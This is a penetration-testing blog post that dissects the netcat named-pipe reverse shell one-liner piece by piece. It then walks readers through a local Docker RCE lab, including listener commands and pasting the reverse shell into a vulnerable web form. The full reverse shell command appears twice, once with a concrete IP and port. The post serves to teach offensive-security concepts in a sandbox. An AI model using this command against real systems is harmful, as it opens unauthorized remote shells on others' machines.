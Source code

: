 ```yaml
---
layout: post
title:  "Anatomy of a Reverse Shell: nc named pipe"
categories: 
excerpt: "Breaking down the cryptic reverse shell using nc and named pipes. How the reverse shell works, and a hands-on docker lab to test out reverse shells."
image: "/images/posts/reverse-shell-nc-named-pipe.png"
permalink: "/post/anatomy-of-reverse-shell-nc-pipe/"
---
```


In penetration testing and hacking, one of the main goals is to obtain a reverse shell on the target or victim system. Sometimes the code and commands to obtain these reverse shells can be very complicated if you aren't familiar with every little piece of the command that is chained together. Today, we'll be discussing a Netcat named pipe reverse shell and breaking it down to fully understand how it works.

# Netcat Named Pipe

Here is the reverse shell command that we are taking a deeper look into:

```
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc IP PORT > /tmp/f
```

If you have remote code execution on a target system, and that system has `nc` installed and available, you can enter the above code (replacing `IP` and `PORT` with your own IP and a listening port), and you will get a shell on the target box that lets you enter commands and receive the output in your own terminal.

Let's break down each of these individual commands and take a closer look at what they do and how they work together to give you a semi-interactive reverse shell.

**`rm /tmp/f;`**  
This removes the `/tmp/f` file if it exists. This allows the file to be created in the next step without interfering with an existing file. Ideally, this filename should be fairly unique. If you're using this in a CTF or engagement, make sure to use a unique filename for all instances of the `/tmp/f` file in the command.

**`mkfifo /tmp/f;`**  
This uses `mkfifo` to create a "first in, first out" file, also known as a named pipe. This special type of file can be opened by one process for reading and another for writing. Anything the writing process puts in the file is immediately read by the process that is reading it.

**`cat /tmp/f`**  
`cat` is typically used to read a file and output its contents to the terminal. Here, since we are reading a FIFO (named pipe) file, `cat` will read the file, but since no program has begun writing to it, there is no End of File (EOF) marker. The program waits at this point for data to appear. When new data arrives, it reads and sends it down the pipeline to the next command. If no EOF is seen, it pauses and keeps retrying until more data is added. This repeats until EOF is read.

**`| /bin/sh -i 2>&1`**  
The contents from `/tmp/f` are sent to the `/bin/sh` shell. The `-i` flag starts an interactive session, executing commands as they are read from `/tmp/f`. The `2>&1` part redirects standard error to standard output. By default, error output is not forwarded in the pipeline. Redirecting it ensures that both standard output and error are sent to the next command.

> **Why do almost all reverse shells use `/bin/sh` instead of the friendlier `/bin/bash`?**  
> Not all systems have `/bin/bash` installed. However, `/bin/sh` will *always* be available on all Unix/Linux systems, including embedded and IoT devices.

**`| nc IP PORT > /tmp/f`**  
Next, we take the output of `sh` (executing commands from `/tmp/f`) and use `netcat` to connect to the specified IP and port. Any input received from the IP (e.g., typed commands) is written to `/tmp/f`, read by `cat`, and piped into `sh`, completing the loop.

# Putting It All Together

This type of reverse shell is cyclical. Initially, you read the empty `/tmp/f` file, and `/bin/sh` executes nothing. The output is sent to `nc` at your IP, which lets you type a command. That command is written to `/tmp/f`, picked up by `cat /tmp/f`, and executed by `sh`. The output is sent back to your `nc` session, and displayed in your terminal.

# Hands-On Docker Lab

If you have Docker, you can use this hands-on lab to practice reverse shell commands demonstrated in this post. You can also try out other techniques. For a great reverse shell reference and command builder, check out [RevShells.com](https://www.revshells.com/).

## Prerequisites

You will need Docker and Netcat installed on your PC.

### Installing Docker

Docker is available for Windows, Linux, and macOS. Refer to the [official Docker documentation](https://docs.docker.com/desktop/) for installation instructions.

### Installing Netcat

**Windows**  
Download `nc.exe` from [int0x33's GitHub](https://github.com/int0x33/nc.exe/) and run it from the command prompt.

**Linux**  
Netcat should be available via your distribution’s package manager.

**macOS**  
Netcat should be installed by default. Run `nc` from a Terminal to check.

## Finding Your IP

To connect back to your machine, you need your local IP address.

**Windows**  
Run:
```
ipconfig
```
Look for your IPv4 address under either the Ethernet or Wireless adapter section.

**Linux and macOS**  
Run:
```
ifconfig
```

## Starting the Docker rce-lab

Run the following to launch the Docker image and serve it on port 80:
```
docker run -itp 80:80 --rm rufflabs/rce-lab
```

## Testing Remote Code Execution

Go to `http://localhost/` in your browser. You should see a simple web page with an input box. Try commands like `whoami` or `ls -al` to confirm code execution. Confirm that `nc` is available by running `which nc`. If it returns a path, it’s available.

## Gaining a Reverse Shell

Once you confirm code execution in the Docker container, you can likely obtain a reverse shell via Netcat.

### Starting a Netcat Listener

Open a terminal and run the following (modify as needed):

**Linux/Windows:**
```
nc -lp 4444
```

**macOS:**
```
nc -l 4444
```

The terminal will wait for a connection.

### Using RCE for Reverse Shell

Update the original command with your IP and port:
```
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 192.168.1.101 4444 > /tmp/f
```

Paste it into the website input box and submit. The page may hang — that’s expected. Switch to your terminal, and you should see a shell prompt.

> **Why does the browser hang?**  
> The PHP backend runs the reverse shell and waits forever as the process doesn’t complete. It hangs until it times out, potentially disconnecting your reverse shell.